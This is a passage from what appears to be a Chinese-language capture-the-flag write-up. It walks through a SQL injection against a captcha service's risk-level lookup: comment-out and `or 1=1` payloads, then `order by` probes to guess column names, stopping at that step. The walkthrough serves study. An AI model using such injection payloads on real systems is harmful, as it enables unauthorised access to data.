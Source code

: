 这里用 `?` 包裹的值表示现在还不确定的内容。

先尝试将用户名修改成 `Simple-1' -- `，其中 `--` 能够将后面的内容注释掉。这样，如果没有防范 SQL 注入攻击，SQL 语句就会变为：

```sql
select ?风险等级...? from ?数据表? where ?用户名? = 'Simple-1' -- '
```

这个语句应当会成功执行，并给出 `Simple-1` 对应的风险等级——`1`。果不其然，系统给出了一张全为数字的验证码。这证明了系统确实是没有防范 SQL 注入攻击的。为了进一步攻击，我们还需要解决两个问题：

- 上面语句中三个不确定的值究竟是什么？
- 现在已知没有查询到结果时，会直接给出最难的验证码。那么如果 SQL 语句语法出错呢？如果查询到了多个结果呢？

首先解决第二个问题。提交用户名 `Simple-1' `，这样就会执行语句

```sql
select ?风险等级...? from ?数据表? where ?用户名? = 'Simple-1' '
```

这是个错误的语句。结果是，系统给出了最难的验证码。因此，我们断言，SQL 语法出错时，系统将给出最难的验证码。接下来提交 `Simple-1' or 1=1 -- `，会获得

```sql
select ?风险等级...? from ?数据表? where ?用户名? = 'Simple-1' or 1=1 -- '
```

这将会使得筛选条件失效，导致选出用户风险等级表中的所有内容，一定会包含多个值。我们发现系统给出了最简单的验证码。于是，我们知道了：

- 当匹配到多个风险等级数据时，使用第一个数据。

并且，数据表的样子应该至少是：

|数据表 `?数据表?`|`?用户名?`|`?风险等级?`|
|-|-|-|
|1|Simple-1|1|
|2|Azusa-3|3|
|3|RELX-5|5|
|4|Diana-7|7|
|5|AzumaSeren-8|8|
|6|OP-9|9|

接下来，试探数据表的结构。

首先，探测 `?用户名?` `?风险等级?` 两列的名称，根据经验和 Python 代码可以猜测是 `username` 和 `riskness`。注入：

```plain
Simple-1' order by username --
Simple-1' order by riskness --
```

分别得到

```sql
select ?风险等级...? from ?数据表? where ?用户名? = 'Simple-1' order by username -- '
select ?风险等级...? from ?数据表? where ?用户名? = 'Simple-1' order by riskness -- '
```
